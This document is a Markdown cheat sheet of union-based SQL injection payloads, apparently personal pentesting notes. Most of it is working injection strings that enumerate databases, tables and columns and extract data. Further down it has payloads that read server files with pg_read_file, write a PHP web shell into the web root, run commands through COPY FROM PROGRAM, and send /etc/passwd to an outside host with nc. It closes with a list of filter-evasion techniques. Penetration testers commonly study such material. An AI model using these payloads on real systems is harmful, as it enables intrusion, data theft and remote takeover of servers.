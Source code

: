 # Unon based SQL Injection

## Utils before start
#### Database objects used for enumeration
|Oracle 					| MS Access 		| MySQL 			| MSSQL Server		| PostgreSQL  		|
|---------------------------|-------------------|-------------------|-------------------|-------------------|
|SYS.USER_OBJECTS 			|MsysACEs			|mysql.user 		|sysobjects			|pg_default			|
|SYS.TABLES, SYS.USER_TABLES|MsysObjects		|mysql.db 			|syscolumns			|pg_global			|
|SYS.USER_VIEWS 			|MsysQueries		|mysql.tables_priv  |systypes			|					|
|SYS.ALL_TABLES 			|MsysRelationship	|					|sysdatabases		|					|
|SYS.COLUMNS 				|					|					|					|					|
|SYS.USER_OBJECTS 			|					|					|					|					|

#### Database features comparison
|				| MySQL 		| MSSQL 		| MS Access 		| Oracle 		| DB2 			  | PostgreSQL 		|
|---------------|---------------|---------------|-------------------|---------------|-----------------|-----------------|
| String concat |concat\[_ws](,)| +				| &					|	\|\|		| concat(),+,\|\| | \|\|			|
| Comments		| --,/**/,#		| --,\/*		|					| -- and \/*	| --			  |	--, \/*			|				
| Request union | union 		| union, ;		| union 			| union 		| union 		  | union, ;		|


## Get columns number

Check how many columns have current table using order by. When order by have the wrong number of columns, it will return an error:
```
' order by 1;
' order by 2;
' order by 3;

# Or use nulls with unions
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

`NULL` is used because it is convertible to any data type of a column. 

## Find column with relevant data type - a string would be the best

This one needs to be compatible with datatype that we want to extract.

```
' UNION SELECT 'x',NULL,NULL--
' UNION SELECT NULL,'x',NULL--
' UNION SELECT NULL,NULL,'x'--
```

## Get database version
```
'+union+select+NULL,version(),NULL,NULL,NULL--
'+union+select+NULL,@@version,NULL,NULL,NULL--
```

## Get current user
```
'+union+select+NULL,current_user,NULL,NULL,NULL--
'+union+select+NULL,user,NULL,NULL,NULL--
'+union+select+NULL,user(),NULL,NULL,NULL--
```

## Extract database name:
```
# Extract current database name
' UNION SELECT ALL NULL,NULL,NULL,database();
' UNION SELECT ALL NULL,NULL,NULL,current_database();
```

List all databases:
```
'+union+select+NULL,datname,NULL,NULL,NULL from pg_database--
```

## Extract database tables names: 

```
// additionally database could be provided: table_schema = database()
'' UNION SELECT ALL 1,2,3,4,5,6,7,8,9,table_name FROM information_schema.tables  LIMIT 100;  

# PostgreSQL:
'+union+select+NULL,table_name,NULL,NULL,NULL from information_schema.tables where table_schema='public'--
# or
'+union+select+NULL,concat(table_schema, ' <--> ',table_name),NULL,NULL,NULL from information_schema.tables WHERE table_type = 'BASE TABLE' AND table_schema NOT IN ('pg_catalog', 'information_schema'); --
```

## Extract columns names from table:
```
SELECT * FROM `c5_logger_system` WHERE id=100 UNION SELECT ALL 1,2,3,4,5,6,7,8,table_name, column_name FROM information_schema.columns WHERE table_schema = database() and table_name = "c5_users"--;

# PostgreSQL
'+union+select+NULL,concat(table_name, ' <--> ',column_name),NULL,NULL,NULL from information_schema.columns WHERE table_schema='public' AND table_name='cars'--
```
## Extract data from table:
```
'+union+select+NULL,concat(id, ';',engine, ';', type),NULL,NULL,NULL from cars--

# Check if first character is between a-c 
'+1=(SELECT 1 from users WHERE password REGEXP '^[a-c]' AND user_id=2)-- 
```

## Read files
```
' union+select+NULL,pg_read_file('/home/simon/.sudo_as_admin_successful',0,1000000),NULL,NULL,NULL--
' union+select+NULL,ENCODE(CONVERT_TO(pg_read_file('/var/www/html/dashboard.php',0,1000000), 'UTF-8'), 'BASE64'),NULL,NULL,NULL--

' union+select+NULL,pg_ls_dir('/home/simon'),NULL,NULL,NULL--
```
## Write a file:
```
# PostgreSQL
'; COPY(select+NULL,'<?php system($_GET["cmd"]); ?>',NULL,NULL,NULL) TO '/var/www/html/shell1.php'--
```

## Create a new table and insert data
```
'; DROP TABLE IF EXISTS dummytbl;CREATE TABLE dummytbl(data text);COPY dummytbl FROM PROGRAM 'echo 1';--
'+ union select NULL,data,NULL,NULL,NULL from dummytbl--

```

## Remote command execution
```
'; CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS ‘/lib/libc.so.6’, ‘system’ LANGUAGE ‘C’ STRICT; SELECT system(‘cat /etc/passwd | nc 10.0.0.1 8080’)--
```

## Evasion techniques
1. In-line comment
2. Char encoding
3. String concat
4. Obfuscating query
5. Whitespaces
6. Hex encoding
7. Sophisticated matches
8. URL Encoding
9. Null byte
10. Case variation
11. Variables declaration
12. IP Fragmentation
13. Variations (OR 2+1=3, OR "AB"="a"+"b")




## Cheat sheets
- https://portswigger.net/web-security/sql-injection/union-attacks
- https://portswigger.net/web-security/sql-injection/cheat-sheet
- https://www.hackingloops.com/sql-injection-cheat-sheet/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md
- https://www.hackingloops.com/sql-injection-cheat-sheet/
- https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection
- https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet